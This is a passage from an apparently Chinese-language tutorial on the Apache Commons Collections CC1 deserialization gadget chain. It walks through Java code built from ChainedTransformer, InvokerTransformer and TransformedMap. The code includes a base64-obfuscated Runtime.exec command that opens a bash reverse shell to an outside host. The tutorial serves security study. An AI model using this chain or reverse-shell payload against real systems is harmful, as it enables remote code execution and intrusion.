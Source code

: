 到了这里我们已经是构造了三个 `InvokerTransformer` 对象，只要依次执行他们的 `transform` 方法就可以完成危险方法执行。但是这样并不完美，因为一口气调用三个方法还是比较困难的。这里就需要引出我们的第二个类 —— `ChainedTransformer` 类。这个类最大的用途就是它的内部有一个 `Transformer` 对象的数组。当它执行 `transform` 方法时，它会依次执行数组中前一个 `Transformer` 对象的 `transform` 方法，然后把返回的 `Object` 作为下一个对象的 `transform` 的参数。首尾相连，最后把最后一个对象得到的 `Object` 返回。

利用 `ChainedTransformer` 这个类，我们可以很方便地把三个 `InvokerTransformer` 对象合为一个：

```java
Transformer[] transformers = new Transformer[]{
    new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
    new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwL3d3dy5zeHJoaGgudG9wLzIzMzMgMD4mMQ==}|{base64,-d}|{bash,-i}"}),
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
chainedTransformer.transform(Runtime.class);
```

到此可以看见，我们的危险 `transformer` 已经创建好了，只要能够调用我们的 `chainedTransformer.transform()` 这个方法，就会执行我们的危险方法。现在这个子弹已经制作完成，我们需要找的就是能把这颗子弹发射出去的一把枪。

## 构造攻击链

在攻击链中，有三个主要节点：入口类、传递方法以及危险方法。如今我们已经把危险方法包装称一个 `chainedTransformer.transform()` 方法，那么我们通过 IDEA 来查找一下有没有什么上级的方法可以作为传递方法。

通过搜索，我们发现了有两个类：`TransformedMap` 和 `LazyMap`。这两个其实正是 CC1 链的两个不同分支，而这一次我们走的是 `TransformedMap` 这个分支。

![](https://repo.sxrhhh.top/undefined20240622013827.png)

我们观察到 `TransformedMap` 这个类，它一共有三个方法，其中两个都是给自己用的 `protected` 方法。而第三个叫做 `checkSetValue` 方法。虽然它也是 `protected` 方法，但是根据它的方法注释我们可以得知，当对这个 Map 执行 `setValue` 方法时，会调用这个方法。我们通过不断跟进它的父类，验证了这个注释是正确的。那么 `setValue` 是什么呢？

我们先来看一下这个 `checkSetValue` 方法做了什么：

```java
protected Object checkSetValue(Object value) {
    return valueTransformer.transform(value);
}
```

可以看见，这个方法所干的事就是调用对象 `valueTransformer` 成员的 `transform` 方法，那么我们可以根据这个类的源码，来创建一个 `TransformedMap` 对象，令它的 `valueTransformer` 为我们的危险对象。

```java
HashMap<Object, Object> map = new HashMap<>();
map.put("value", "value");
Map<Object, Object> transformedMap = (Map) TransformedMap.decorate(map, null, chainedTransformer);
```

于是我们通过 `decorate` 方法，创建了一个 `transformedMap` 对象。

现在，我们对它调用 `setValue` 方法。这是一个属于 `Map.Entry` 类的方法。它表示了 `Map` 对象中的一个键值对。也就是说，通过 `Map.entrySet()` 可以获得一个以 `Map.EntrySet` 为对象的 `Set` 集合。为了调用这个集合中的对象，我们需要使用迭代器，或者直接使用 foreach 方法就可以。
